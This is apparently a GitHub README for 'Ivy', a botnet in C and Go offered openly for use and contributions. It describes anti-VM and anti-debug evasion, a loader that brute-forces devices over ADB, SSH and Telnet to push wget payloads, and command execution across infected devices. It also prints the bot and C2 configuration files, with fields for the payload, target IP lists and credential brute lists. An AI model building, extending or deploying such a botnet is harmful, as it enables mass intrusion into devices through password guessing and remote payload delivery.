 <h1 align="center">
	<img src="https://user-images.githubusercontent.com/95945026/145702221-ed6d438c-436c-47b9-8e9f-c9223963394b.png" width="150px"><br>
    ivy - A large botnet written in C and Golang.
</h1>
<p align="center">
    Ivy is a large, feature-rich botnet written in C and Golang that contains a built-in loader for parsing data
    from wordlists, and bruting devices to send payloads. Ivy's bot contains all the base features
    for a bot, and a command handling function that the user is able to edit, for their own use.
</p>

<p align="center">
	<a href="https://deno.land" target="_blank">
    	<img src="https://img.shields.io/badge/Version-1.0.0-7DCDE3?style=for-the-badge" alt="Version">
</p>

## Features
Feature  | Description
-------- | -----------
Anti VM | The bot for Ivy checks if it's being ran in a virtual machine by checking for the uptime and hardware specifications. If it detects anything suspicious, it exits.
Anti Debug | The bot for Ivy checks if it's being debugged. If it is, it exits.
Loader | Ivy has a built-in loader that can brute and send payloads to devices via ADB, SSH, and Telnet.
Command Execution | You can send data to all the connected devices.
Configuration | Ivy makes it extremely easy to configure the loader, bot, and C2.

# Bot Configuration
The configuration file for the bot is located in `util/bot/includes/config/config.h`.
```c
#pragma once


/*
    *    util/bot/includes/config/config.h
    *    Date: 12/11/21
    *    Author: 0x80000000
*/


#define C2_IP "127.0.0.1"
#define C2_PORT 1337
```
	
## Server Configuration
The configuration file for the bot is located in `util/config/config.go`.
```go
package config

import (
	"net"
)


/*
    *    util/config/config.go
    *    Date: 12/11/21
    *    Author: 0x80000000
*/


var Bots []net.Conn /* Don't touch this! */
var BotCount int = 0 /* Don't touch this! */

/* Server Configuration */
const (
    C2_IP = "127.0.0.1" /* Server IP! */
    C2_PORT = "1337" /* Server Port! */
	MAX_BOTS = 1024 /* Max amount of bots allowed to connect to the server! */
)

/* Loader Configuration */
const (
    LOADER_ENABLE = false /* Set this to 'true' if you want to use the loader! */
    LOADER_PAYLOAD = "" /* Add your own custom wget payload here! */
    LOADER_OPTION = "" /* The options are '--adb', '--ssh', and '--telnet'! */
    LOADER_IP_LIST = "" /* Add your list containing the IP addresses of targets! */
    LOADER_BRUTE_LIST = "" /* Add your list containing the username/password combinations to brute against the target! */
)
```

## Setup & Installation
```
Steps for compiling & running:
  ./compile.sh
```

## Credits
```
https://github.com/0x80000000
```

### Contributions 🎉
###### All contributions are accepted, simply open an Issue / Pull request.

